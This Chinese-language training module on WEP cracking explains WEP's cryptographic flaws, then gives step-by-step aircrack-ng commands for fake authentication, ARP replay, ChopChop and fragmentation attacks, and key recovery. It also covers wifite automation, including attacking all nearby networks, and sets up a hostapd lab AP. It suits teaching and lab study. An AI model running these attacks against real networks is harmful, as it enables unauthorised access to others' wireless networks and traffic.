



# 模块03：WEP破解

> **学习目标**：掌握WEP协议漏洞原理和完整破解流程
> **所需工具**：airmon-ng, airodump-ng, aireplay-ng, aircrack-ng, wifite

## 目录

- [[#一、WEP协议漏洞原理|WEP协议漏洞原理]]
- [[#二、完整WEP破解流程|完整WEP破解流程]]
- [[#三、自动化WEP破解|自动化WEP破解]]
- [[#四、双网卡加速|双网卡加速]]
- [[#五、故障排除|故障排除]]
- [[#六、实践操作|实践操作]]

---

## 一、WEP协议漏洞原理

### 1.1 WEP加密过程



WEP帧格式：

| IV (3字节) | KeyID(1位) | 密文 | ICV(4字节) |
|------------|------------|------|------------|
| 明文传输！ | 密钥编号 | 加密数据 | 明文+ICV |

### 1.2 WEP的核心缺陷

**缺陷一：IV空间太小**
- IV只有24位 → 16,777,216种可能值
- 在活跃网络中，IV在数小时内就会重复
- 相同的IV + 相同的WEP密钥 → 相同的密钥流
- 相同的密钥流 → 可以通过XOR运算恢复明文

**缺陷二：RC4密钥调度弱点**
- RC4的KSA(Key Scheduling Algorithm)存在偏置
- 某些RC4输出字节比其他字节出现概率更高
- FMS攻击(Fluhrer, Mantin, Shamir)利用此弱点
- PTW攻击(Pyshkin, Tews, Weinmann)进一步改进

**缺陷三：线性CRC-32校验**
- CRC-32是线性的 → 可以数学运算修改
- 攻击者可以修改密文并重新计算正确的CRC
- 这使得数据注入成为可能

**缺陷四：缺少密钥管理**
- 静态密钥：密钥从不自动更换
- 所有客户端共享同一密钥
- 没有认证机制(开放系统认证完全无效)

### 1.3 ARP重放攻击原理



为什么ARP包适合作重放？
- ARP包长度固定(36字节或68字节)
- ARP包头8字节(AA AA 03 00 00 00 08 06)固定可识别
- 大量ARP包产生大量不同的IV
- 对网络影响小，不易被察觉

---

## 二、完整WEP破解流程

### 2.1 总体流程



### 2.2 详细步骤

**步骤一：启用监听模式**

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo iwconfig wlan0mon  # 确认Mode=Monitor
```

**步骤二：定向扫描目标WEP网络**

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_crack wlan0mon
```

参数详解：
- `-c 6`：锁定信道6(使用目标AP实际信道)
- `--bssid AA:BB:CC:DD:EE:FF`：指定目标AP的MAC地址
- `-w wep_crack`：保存捕获数据到 wep_crack-01.cap

保持此窗口打开，不要关闭！

**步骤三：伪关联(Fake Authentication)**

为什么需要伪关联？
- 大多数AP拒绝与未关联设备通信
- 伪关联让AP认为我们是合法客户端
- 成功后AP会接受我们注入的数据包

```bash
sudo aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -e WEP_Lab wlan0mon
```

参数详解：
- `-1`：伪关联攻击模式
- `0`：关联超时重试时间(秒)，0=无超时持续重试
- `-a`：目标AP的MAC地址
- `-e`：目标网络名(可选)
- `-h`：指定攻击者MAC(默认使用网卡MAC)

成功输出示例：
```
18:25:32  Sending Authentication Request (Open System)
18:25:32  Authentication successful
18:25:32  Sending Association Request
18:25:32  Association successful :-)
```

**步骤四：ARP请求重放攻击**

这是最核心的攻击步骤：

```bash
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon
```

参数详解：
- `-3`：ARP请求重放攻击模式
- `-b`：目标AP的MAC地址
- `-h`：指定攻击源MAC地址(可选)
- `-x <pps>`：指定每秒发送包数(推荐500-1024)

速度优化技巧：
- 如果有多个客户端，指定客户端MAC可能更快
- 限制发送速率 `-x 600` 防止AP崩溃
- 使用 `-x 1024` 可以最大化速度

回到airodump-ng窗口观察：
- #Data列数值迅速增长 ← 关键指标！
- 在5-10分钟内，#Data从几百增加到几万
- 一般需要5000-40000个IV才能破解64位WEP
- 128位WEP需要20000-80000个IV

**步骤五：破解WEP密钥**

```bash
sudo aircrack-ng wep_crack-01.cap
# 或指定BSSID
sudo aircrack-ng -b AA:BB:CC:DD:EE:FF wep_crack-01.cap
```

参数详解：
- `wep_crack-01.cap`：包含足够IV的捕获文件
- `-b BSSID`：指定目标AP(如果文件包含多个AP)
- `-K`：使用KoreK攻击替代PTW(可选)
- `-z`：使用PTW攻击(默认)

密钥格式：
- 64位WEP：密钥为5字节(10个十六进制字符)，如 `AE:B8:CC:1D:A4`
- 128位WEP：密钥为13字节(26个十六进制字符)
- 也可以用ASCII密码，如 `MyWEPKey1234`

### 2.3 备选攻击方式

**ChopChop攻击(当ARP重放不可用时)**：

原理：解密单个数据包，获得密钥流

```bash
sudo aireplay-ng -4 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon
```

**碎片攻击(Fragmentation Attack)**：

原理：从AP获取PRGA(伪随机生成算法)字节流

```bash
sudo aireplay-ng -5 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon
```

**交互式包重放(针对特殊网络)**：

```bash
sudo aireplay-ng -2 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon
```

### 2.4 WEP共享密钥认证绕过

对于使用共享密钥认证(SKA)的WEP网络：

攻击原理：先捕获SKA认证过程 → 提取挑战-响应 → 计算密钥流 → 通过认证

```bash
sudo aireplay-ng -1 60 -e WEP_SKA -y keystream.xor wlan0mon
```

---

## 三、自动化WEP破解

### 3.1 wifite — 一键WEP破解

wifite自动化优势：
- 全自动扫描、选择、攻击
- 自动判断攻击策略
- 自动管理接口
- 支持多目标并发攻击

基本命令：
```bash
sudo wifite --wep
```

执行流程：
1. 自动启动监听模式
2. 扫描并列出所有WEP目标
3. 按信号强度排序
4. 用户选择目标(或--all全选)
5. 自动执行伪关联 + ARP重放 + 破解

高级用法：
```bash
sudo wifite --wep --all                      # 攻击所有目标
sudo wifite --wep -b AA:BB:CC:DD:EE:FF       # 指定目标
sudo wifite --wep -c 6                        # 指定信道
sudo wifite --wep -pwr -50                    # 最小信号强度阈值
```

### 3.2 wifite参数速查表

| 参数 | 说明 |
|------|------|
| --wep | 仅攻击WEP网络 |
| --wpa | 仅攻击WPA/WPA2网络 |
| --wps | 仅攻击启用WPS的网络 |
| --all | 攻击所有发现的可攻击目标 |
| -b \<BSSID\> | 指定目标BSSID |
| -c \<channel\> | 指定信道 |
| -e \<ESSID\> | 指定目标网络名称 |
| --kill | 自动杀死干扰进程 |
| -i \<interface\> | 指定无线接口 |
| -pwr \<dBm\> | 最小信号强度阈值 |

保留破解结果：
- 默认存在 `/usr/share/wifite/` 或当前目录
- 包含 `.cap` 文件(捕获的握手包)
- 包含 `.txt` 文件(破解出的密码)

---

## 四、双网卡加速

如果有两张无线网卡：

```bash
# 终端1：网卡1用于捕获
sudo airodump-ng -c 6 --bssid TARGET -w wep_cap wlan0mon

# 终端2：网卡2用于注入
sudo aireplay-ng -3 -b TARGET wlan1mon
```

好处：
- 不会因为监听信道跳转而丢失数据包
- 可以同时从多个角度捕获
- 破解效率更高

---

## 五、故障排除

### 5.1 常见问题和解决方案

**问题：伪关联失败**

原因：AP可能使用了MAC地址过滤或需要客户端已有连接
```bash
# 尝试指定客户端MAC
sudo aireplay-ng -1 0 -a AP_MAC -h CLIENT_MAC wlan0mon
```

**问题：ARP重放无效果(#Data不增长)**

原因：网卡注入功能不正常或AP过滤了注入包
```bash
# 测试注入能力
sudo aireplay-ng -9 wlan0mon
# 如果测试失败，尝试更换网卡或驱动
```

**问题：注入测试命令**

```bash
sudo aireplay-ng -9 wlan0mon
# 输出应显示"Injection is working!"
```

**问题：airodump-ng显示固定信道无法修改**

原因：有进程占用了网卡信道
```bash
sudo airmon-ng check kill
# 重新启动监听模式
sudo airmon-ng start wlan0
```

---

## 六、实践操作

### 6.1 搭建WEP测试AP

使用hostapd模拟WEP AP：
```bash
cat > /tmp/hostapd_wep.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=WEP_Test_Lab
hw_mode=g
channel=6
wep_default_key=0
wep_key0="abcde"
auth_algs=3
EOF
sudo hostapd /tmp/hostapd_wep.conf
```

> 不要使用自己的主路由器！请准备专门的测试AP。

### 6.2 完整手动破解演练

```bash
# Step 1: 进入监听模式
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# Step 2: 扫描WEP网络
sudo airodump-ng wlan0mon
# 查找ENC列显示"WEP"的目标，记录BSSID和信道

# Step 3: 定向扫描(保持此窗口打开)
sudo airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w wep_crack wlan0mon

# 新终端 Step 4: 伪关联
sudo aireplay-ng -1 0 -a 00:14:6C:7E:40:80 -e WEP_Test_Lab wlan0mon

# 新终端 Step 5: ARP重放
sudo aireplay-ng -3 -b 00:14:6C:7E:40:80 wlan0mon
# 观察输出中是否有 "Got ARP request"
# 回到Step 4窗口，观察 #Data 列的增长

# Step 6: 等待IV收集
# 64位WEP：等待#Data达到约5000+
# 128位WEP：等待#Data达到约20000+

# Step 7: 破解密钥
sudo aircrack-ng wep_crack-01.cap
# 成功输出: "KEY FOUND!" [ XX:XX:XX:XX:XX ]
```

### 6.3 wifite自动化演练

```bash
sudo wifite --wep
# 等待扫描完成 → 按序号选择目标
# wifite自动执行：伪关联 → ARP重放 → 破解
```

---

## 课后练习

1. 用自己的语言解释WEP的RC4密钥流重复问题
2. 手动完成一次完整的WEP破解(从扫描到密钥获取)
3. 破解后使用airdecap-ng解密捕获的WEP加密流量
4. 对比不同IV数量下的破解时间(1000 IV vs 10000 IV vs 50000 IV)
5. 研究ChopChop攻击作为ARP重放的替代方案
6. 实验ARP重放速率对破解速度的影响(不同-x值)
7. 用Wireshark分析WEP帧结构，识别IV和密文部分

---

> **相关模块**：[[01-无线网络基础|无线基础]] | [[02-无线侦察与扫描|无线侦察]] | [[04-WPA-WPA2破解|WPA2破解]]

[[../总目录与快速查询|← 返回总目录]]
